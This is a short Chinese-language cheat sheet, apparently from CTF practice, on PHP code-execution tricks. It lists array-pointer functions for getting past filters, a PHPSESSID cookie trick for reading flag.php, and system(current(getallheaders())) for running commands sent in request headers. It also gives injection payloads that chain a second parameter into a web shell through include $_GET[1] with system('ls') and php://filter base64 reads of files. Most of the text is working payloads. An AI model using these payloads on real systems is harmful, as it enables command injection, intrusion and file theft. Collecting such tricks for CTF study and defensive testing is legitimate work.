 ```scss
 
array_reverse()
 
倒序输出
 
如果print_r被过滤
 
可以使用highlight_file
next()
指向当前指针的下一位
 
end()
指向数组最后一位
 
reset()
指向数组第一个
 
prev()
指针往回走一位
 
each()
返回当前指针的值 并且指针向前走一位
```

## 通过seesion执行命令

```scss
print_r(session_id(session_start()))
 
 
Cookie: PHPSESSID=flag.php
```

## 通过请求头执行命令

```lisp
system(current(getallheaders()));
```

## 通过构造新参数执行命令

很多时候 一些读取什么的全都没了 我们无法实现读取文件

这个时候 我们可以在小马中再加一个小马实现其他参数的注入

```cobol
code=include$_GET[1]?>&1=system('ls')
 
code=show_source(get_defined_vars()["_POST"]["a"])&a=/flaggggggg.txt
 
code=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
 
code=require$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
 
```
